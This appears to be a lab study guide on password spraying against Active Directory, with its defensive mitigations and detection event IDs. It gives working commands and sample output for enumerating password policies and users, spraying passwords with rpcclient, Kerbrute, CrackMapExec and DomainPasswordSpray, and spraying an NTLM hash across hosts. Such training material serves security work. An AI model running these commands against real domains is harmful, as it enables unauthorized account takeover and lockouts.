

# Password Spraying in Active Directory Environments

## Table of Contents
- [Overview](#overview)
- [Enumerating & Retrieving Password Policies](#enumerating--retrieving-password-policies)
- [Password Spraying – Making a Target User List](#password-spraying--making-a-target-user-list)
- [Internal Password Spraying – from Linux](#internal-password-spraying--from-linux)
- [Internal Password Spraying – from Windows](#internal-password-spraying--from-windows)


# Overview
- **Password spraying** is an attack where a few common passwords are tried against many accounts, avoiding account lockouts.
- Targets weak, shared, or default passwords across large user bases.
- Common in both internal and external AD attacks.

## Real-World Scenarios
- Initial access by external attackers using breached credentials.
- Lateral movement by internal attackers after phishing or malware.
- Red teamers and penetration testers to identify weak accounts.

## Key Considerations
- Avoids lockouts by rotating usernames, not passwords.
- Often bypasses basic monitoring if thresholds are high.
- Can be noisy if not throttled; stealthier with longer intervals.
- Multi-factor authentication (MFA) and strong password policies reduce risk.

## Table
| Aspect                | Details                                                      |
|-----------------------|--------------------------------------------------------------|
| **Attack Vector**     | Remote (VPN, OWA, RDP, SMB, LDAP)                            |
| **Targets**           | User accounts, service accounts, admin accounts              |
| **Common Tools**      | CrackMapExec, Kerbrute, Hydra, Metasploit, custom scripts    |
| **Detection**         | Multiple failed logins from single IP, unusual login times   |
| **Prevention**        | MFA, lockout policies, monitoring, user education            |

## Example Attack Flow


## Sample Command (CrackMapExec)
```bash
crackmapexec smb 10.0.0.0/24 -u users.txt -p "Winter2024!" --no-bruteforce
```

## References
- [Microsoft: Password spray attacks](https://learn.microsoft.com/en-us/security/compass/incident-response-password-spray)
- [SpecterOps: Password Spraying](https://posts.specterops.io/password-spraying-other-bad-password-hygiene-issues-in-ad-7b7c430aab06) 

# Enumerating & Retrieving Password Policies

## Why Enumerate Password Policy?
- Determines safe password spraying frequency and risk of account lockout.
- Reveals password complexity, length, and lockout settings.

## Methods Overview
| Method                | OS      | Credentialed | Tools/Commands                |
|-----------------------|---------|--------------|-------------------------------|
| SMB Authenticated     | Linux   | Yes          | CrackMapExec, rpcclient       |
| SMB NULL Session      | Linux   | No           | enum4linux, rpcclient         |
| LDAP Anonymous Bind   | Linux   | No           | ldapsearch, windapsearch.py   |
| Built-in Binaries     | Windows | Yes/No       | net.exe, PowerView, SharpView |

---

## Credentialed Enumeration (Linux)
**CrackMapExec Example:**
```bash
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```
**Sample Output:**
```
Minimum password length: 8
Password history length: 24
Maximum password age: Not Set
Password Complexity Flags: 000001
Minimum password age: 1 day 4 minutes
Reset Account Lockout Counter: 30 minutes
Locked Account Duration: 30 minutes
Account Lockout Threshold: 5
```

---

## Anonymous/NULL Session Enumeration (Linux)
**rpcclient Example:**
```bash
rpcclient -U "" -N 172.16.5.5
rpcclient $> getdompwinfo
```
**Sample Output:**
```
min_password_length: 8
password_properties: 0x00000001
    DOMAIN_PASSWORD_COMPLEX
```

**enum4linux Example:**
```bash
enum4linux -P 172.16.5.5
```
**Sample Output:**
```
Minimum password length: 8
Password history length: 24
Maximum password age: Not Set
Password Complexity Flags: 000001
Account Lockout Threshold: 5
```

---

## LDAP Anonymous Bind (Linux)
**ldapsearch Example:**
```bash
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```
**Sample Output:**
```
minPwdLength: 8
pwdHistoryLength: 24
lockoutThreshold: 5
```

---

## Windows Methods
**Built-in net.exe:**
```cmd
net accounts
```
**Sample Output:**
```
Minimum password age (days): 1
Maximum password age (days): Unlimited
Minimum password length: 8
Length of password history maintained: 24
Lockout threshold: 5
Lockout duration (minutes): 30
```

**PowerView Example:**
```powershell
Import-Module .\PowerView.ps1
Get-DomainPolicy
```

---

## Default Domain Policy (Reference)
| Policy                                 | Default Value |
|----------------------------------------|---------------|
| Enforce password history               | 24            |
| Maximum password age                   | 42 days       |
| Minimum password age                   | 1 day         |
| Minimum password length                | 7             |
| Password must meet complexity reqs     | Enabled       |
| Store passwords using reversible enc.  | Disabled      |
| Account lockout duration               | Not set       |
| Account lockout threshold              | 0             |
| Reset account lockout counter after    | Not set       |

---

## Key Takeaways
- Always enumerate the password policy before spraying.
- If policy cannot be retrieved, spray with extreme caution (low frequency, long intervals).
- Avoid account lockouts—especially in environments requiring manual unlocks.
- Use a combination of tools for redundancy and stealth. 

# Password Spraying – Making a Target User List

## Why Build a Target User List?
- Increases success rate and stealth of password spraying.
- Reduces risk of account lockout by focusing on valid users.
- Enables tailored attacks based on domain policy and user attributes.

## User Enumeration Methods
| Method                | Credentialed | Tools/Commands                | Notes                                  |
|-----------------------|--------------|-------------------------------|----------------------------------------|
| SMB NULL Session      | No           | enum4linux, rpcclient         | May be blocked in modern domains       |
| LDAP Anonymous Bind   | No           | ldapsearch, windapsearch.py   | Legacy/weak config, not always allowed |
| Kerberos Pre-Auth     | No           | Kerbrute                      | Fast, stealthy, no logon failures      |
| Credentialed Query    | Yes          | CrackMapExec, rpcclient       | Most reliable, needs creds             |
| External OSINT        | No           | linkedin2username, email scrape| For external/limited access            |

---

## Example: enum4linux (SMB NULL Session)
```bash
enum4linux -U 172.16.5.5 | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```
**Sample Output:**
```
administrator
guest
krbtgt
lab_adm
htb-student
avazquez
pfalcon
...
```

---

## Example: rpcclient (SMB NULL Session)
```bash
rpcclient -U "" -N 172.16.5.5
rpcclient $> enumdomusers
```
**Sample Output:**
```
user:[administrator] rid:[0x1f4]
user:[guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
...
```

---

## Example: CrackMapExec (Credentialed or NULL Session)
```bash
crackmapexec smb 172.16.5.5 --users
```
**Sample Output:**
```
INLANEFREIGHT.LOCAL\administrator  badpwdcount: 0 baddpwdtime: ...
INLANEFREIGHT.LOCAL\guest          badpwdcount: 0 baddpwdtime: ...
...
```

---

## Example: ldapsearch (LDAP Anonymous Bind)
```bash
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "
```
**Sample Output:**
```
guest
htb-student
avazquez
...
```

---

## Example: windapsearch (LDAP Anonymous Bind)
```bash
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```
**Sample Output:**
```
[+] Enumerating all AD users
[+] Found 2906 users:
cn: Guest
userPrincipalName: htb-student@inlanefreight.local
...
```

---

## Example: Kerbrute (Kerberos Pre-Auth)
```bash
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```
**Sample Output:**
```
[+] VALID USERNAME: jjones@inlanefreight.local
[+] VALID USERNAME: sbrown@inlanefreight.local
...
```

**Extracting Valid Usernames from Kerbrute Output:**
After running Kerbrute, you can quickly build a wordlist of valid usernames with:
```bash
grep "VALID USERNAME:" kerbrute_output.txt | awk '{print $NF}' | cut -d'@' -f1 >> valid_users.txt
```
This command filters Kerbrute's output and appends the usernames (without domain) to `valid_users.txt`.

---

## Example: CrackMapExec (Credentialed)
```bash
sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
```
**Sample Output:**
```
INLANEFREIGHT.LOCAL\administrator  badpwdcount: 1 baddpwdtime: ...
INLANEFREIGHT.LOCAL\guest          badpwdcount: 0 baddpwdtime: ...
...
```

---

## Best Practices
- Always consider the domain password policy before spraying.
- Clean and deduplicate user lists; filter out disabled or locked accounts if possible.
- Log all spray attempts: users, DC, time, date, passwords tried.
- If policy is unknown, spray with extreme caution (low frequency, long intervals).
- Use OSINT and external sources if internal enumeration is not possible. 

# Internal Password Spraying – from Linux

## Overview
- After building a valid user list, execute password spraying attacks from a Linux host.
- Use tools like rpcclient, Kerbrute, and CrackMapExec for different protocols and stealth levels.
- Always proceed with caution to avoid account lockouts and detection.

---

## Password Spraying with rpcclient
**Bash One-liner:**
```bash
for u in $(cat valid_users.txt); do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
**Sample Output:**
```
Account Name: tjohnson, Authority Name: INLANEFREIGHT
Account Name: sgage, Authority Name: INLANEFREIGHT
```

---

## Password Spraying with Kerbrute
**Command:**
```bash
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1
```
**Sample Output:**
```
[+] VALID LOGIN: sgage@inlanefreight.local:Welcome1
Done! Tested 57 logins (1 successes) in 0.172 seconds
```

---

## Password Spraying with CrackMapExec
**Command:**
```bash
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```
**Sample Output:**
```
SMB 172.16.5.5 445 ACADEMY-EA-DC01 [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

**Validating Credentials:**
```bash
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```

---

## Local Administrator Password Reuse
- Password spraying can target local admin accounts across multiple hosts.
- Password reuse is common due to gold images or poor management.
- CrackMapExec can spray NTLM hashes with the `--local-auth` flag to avoid domain lockouts.

**Command:**
```bash
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```
**Sample Output:**
```
SMB 172.16.5.50 445 ACADEMY-EA-MX01 [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB 172.16.5.25 445 ACADEMY-EA-MS01 [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
```

**Note:**
- This technique is noisy and not suitable for stealthy assessments.
- Recommend using Microsoft LAPS to enforce unique local admin passwords per host. 

# Internal Password Spraying – from Windows

## Overview
- From a domain-joined Windows host, password spraying can be performed using tools like DomainPasswordSpray or Kerbrute.
- DomainPasswordSpray can auto-enumerate users, check password policy, and avoid lockouts by excluding risky accounts.
- Useful for on-site, VM, or initial foothold scenarios.

---

## Using DomainPasswordSpray.ps1
**Example:**
```powershell
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
**Sample Output:**
```
[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] The smallest lockout threshold discovered in the domain is 5 login attempts.
[*] Removing disabled users from list.
[*] There are 2923 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 2923 users gathered from the current user's domain
[*] Password spraying has begun with  1  passwords
[*] Now trying password Welcome1 against 2923 users.
[*] SUCCESS! User:sgage Password:Welcome1
[*] SUCCESS! User:tjohnson Password:Welcome1
```
- Kerbrute can also be used on Windows for user enumeration and spraying.

---

## Mitigations
| Technique                        | Description                                                                 |
|-----------------------------------|-----------------------------------------------------------------------------|
| Multi-factor Authentication       | Greatly reduces risk; implement for all external portals.                   |
| Restricting Access                | Limit app access to only necessary users; follow least privilege.           |
| Reduce Impact of Exploitation     | Use separate admin accounts, segment networks, and limit lateral movement.  |
| Password Hygiene                  | Educate users, enforce strong passwords, use password filters.              |

- Ensure lockout policy does not enable easy denial of service.

---

## Detection
- Monitor for many account lockouts or failed logons (Event ID 4625) in a short period.
- Watch for Event ID 4771 (Kerberos pre-auth failures) for LDAP spraying attempts.
- Correlate logon failures to trigger alerts.
- Enable Kerberos logging for deeper insight.

---

## External Password Spraying (Brief)
- Attackers often target external services (O365, OWA, RDS, VPN, Citrix, custom web apps) using password spraying.
- Same principles apply: enumerate users, spray common passwords, avoid lockouts.

---

## Next Steps
- With valid credentials, proceed to credentialed enumeration and lateral movement using additional tools. 